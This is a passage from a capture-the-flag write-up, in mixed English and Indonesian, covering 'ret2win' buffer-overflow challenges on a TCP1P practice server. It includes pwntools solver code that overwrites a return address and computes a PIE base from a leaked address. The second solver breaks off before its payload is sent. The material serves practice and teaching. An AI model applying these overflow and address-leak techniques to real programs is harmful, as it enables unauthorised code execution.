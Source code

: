 ```py
payload += p64(win_addr)

io.sendlineafter("Give me your payload: ", payload)
io.interactive()
```
![](ret2win3flag.png)
Flag: `TCP1P{gimana_rasanya_ngebypass_mitigasi_pertama_bang}`
### ret2win 4
##### Author: zran
##### Desc: Mitigasi lain untuk menyusahkan penyerang dalam mengubah alur program adalah PIE. PIE adalah singkatan dari Position Independent Executable yang mengakibatkan program kita untuk di-load ke dalam memori dengan offset random. Jadi walaupun ada buffer overflow, penyerang tidak tau alamat dari fungsi/instruksi yang ingin dijalankan. Tapi, kalau kita bisa dapetin salah satu alamat dari program saat dijalankan, alamat dari fungsi/instruksi yang ingin dijalankan tinggal dihitung dari selisihnya dengan alamat yang udah didapetin tadi.
so yea this is still ret2win, but with PIE, PIE is annoying ngl, cus every we run the program, the addr is changed, but in this CTF chall, i got leak address when i run the program

![](ret2win4run.png)

so we can calculate it using method in pwn library, `ELF("./ret2win")` to load binary, `elf.sym['win']` to find win address, and `next(elf.search(asm("ret")))` for find ret gadget automatically and using `flat()` to make the payload clean
and this is the solver looks like
#### Solver
```py
from pwn import *

host = "playground.tcp1p.team"
port = 19003

elf = context.binary = ELF("./ret2win", checksec=False)

p = remote(host, port)

p.recvuntil(b"Here's a gift for you: ")
pie_leak = int(p.recvline().strip(), 16)
log.info(f"Leaked PIE address: {hex(pie_leak)}")

offset_to_leak = 0x404c 
elf.address = pie_leak - offset_to_leak
log.info(f"Calculated PIE Base: {hex(elf.address)}")
win = elf.sym['win']
ret = next(elf.search(asm("ret")))
log.info(f"Address of win(): {hex(win)}")
log.info(f"Address of ret: {hex(ret)}")
offset = 120  
```